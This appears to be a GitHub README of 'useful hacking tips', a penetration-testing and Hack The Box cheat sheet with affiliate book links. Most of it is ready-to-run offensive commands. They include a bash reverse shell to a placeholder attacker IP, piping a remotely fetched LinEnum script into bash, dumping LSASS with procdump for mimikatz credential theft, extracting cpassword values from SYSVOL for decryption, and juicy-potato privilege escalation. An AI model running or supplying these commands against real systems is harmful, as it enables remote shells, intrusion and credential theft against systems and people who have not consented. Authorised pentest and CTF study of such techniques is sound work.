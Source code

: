 # Usefull-hacking-tips
Some books you want to read:<br>
<ul>
<li><a href="https://www.amazon.com/gp/product/1980901759/ref=as_li_tl?ie=UTF8&camp=1789&creative=9325&creativeASIN=1980901759&linkCode=as2&tag=1333706-20&linkId=b7f2896fbcc265738ba6f2803339d6d2" target="_blank">The Hacker Playbook 3: Practical Guide To Penetration Testing</a></li>
<li><a href="https://amzn.to/2zvdQmI" target="_blank"> Advanced Penetration Testing: Hacking the World's Most Secure Networks</a></li>
  <li><a href="https://amzn.to/2P9TnbS" target="_blank">Social Engineering: The Science of Human Hacking</a></li>
</ul>

usefull tips and tools for hacking
<ul>
  <li> create a file with a range of ip addresses: seq -f "10.10.10.%g" 1 254 > ip.txt
  <li> or use prips 10.0.0.0/23 > ip.txt (first install prips: apt install prips)
  <li>echo  $HISTFILE to check the history file location
</ul>

<b>Port scan commands</b>
<ul>
  <li> nmap -T4 -sV -sT --reason -p1-65535 --vv -oN 'filename' 'IP'
  <li> nmap -sC -sV -oA filename ip - ippsec parameters
  <li> nmap --script vuln 'IP'
  <li> nmap -sV -sC -A -oN filename ip
  <li> unicornscan -r300 -mU 'IP' - UDP scan. USE -mT for TCP
</ul>

<b>IpSec</b>
<ul>
  <li> python -m SimpleHTTPServer PORT
  <li> curl IP:PORT/LinEnum.sh | bash
</ul>

<b>SMB scan</b>
<ul>
  <li> smbclient -N //ip/sharename
</ul>

<b>Priv Esc</b>
<ul>
  <li> sudo -l
  <li> https://github.com/ohpe/juicy-potato  
</ul>

    
<b>Shell</b>
<ul>
  <li> python -c 'import pty; pty.spawn("/bin/sh")'
  <li> python -c 'import pty; pty.spawn("/bin/bash")'
  <li> bash -c 'bash -i >& /dev/tcp/YOURIP/PORT 0>&1'
  <li> when having a shell type CTRL-Z to background the shell. then type stty raw -echo and then fg
</ul>

<b>WPscan</b>
<ul>
  <li> wpscan -u URL -eu -ep -et
</ul>


<b>IPSEC hackthebox</b>
<ul>
  <li> juicypotato windows priv esc - Conceal https://www.youtube.com/watch?v=1ae64CdwLHE
  <li> setuid viewuser - Irked https://www.youtube.com/watch?v=OGFTM_qvtVI
  <li> hackthebox squid server - https://www.youtube.com/watch?v=5wyvpJa9LdU
</ul>

<b>Bloodhound</b>
<ul>
  <li> wget -O - https://debian.neo4j.org/neotechnology.gpg.key | sudo apt-key add -
  <li> echo 'deb https://debian.neo4j.org/repo stable/' | sudo tee /etc/apt/sources.list.d/neo4j.list
  <li> sudo apt-get update
  <li> apt-get install neo4j
  <li> apt-get install bloodhound
  <li> neo4j start (set the admin password in the browser)
  <li> bloodhound
</ul>

<b>Screenshot</b>
<ul>
  <li>gowitness-2.1.2-windows-amd64.exe scan --cidr 192.168.230.0/24 --threads 10
  <li>gowitness-2.1.2-windows-amd64.exe scan -f ip_in_file.txt --threads 10
  <li>gowitness-2.1.2-windows-amd64.exe report serve
</ul>

<b>Procdump</b>
<ul>
  <li> procdump lsass https://www.onlinehashcrack.com/how-to-procdump-mimikatz-credentials.php
  <li>
</ul>

<b>cpassword</b>
<ul>
  <li> findstr -S cpassword $env:logonserver\sysvol\*.xml
  <li> crack passwords with https://github.com/t0thkr1s/gpp-decrypt
</ul>

<b>Find string with grep</b>
<ul>
  <li> grep -oP '(?<="InsertSearchString": ")[^"]*'
  
</ul>
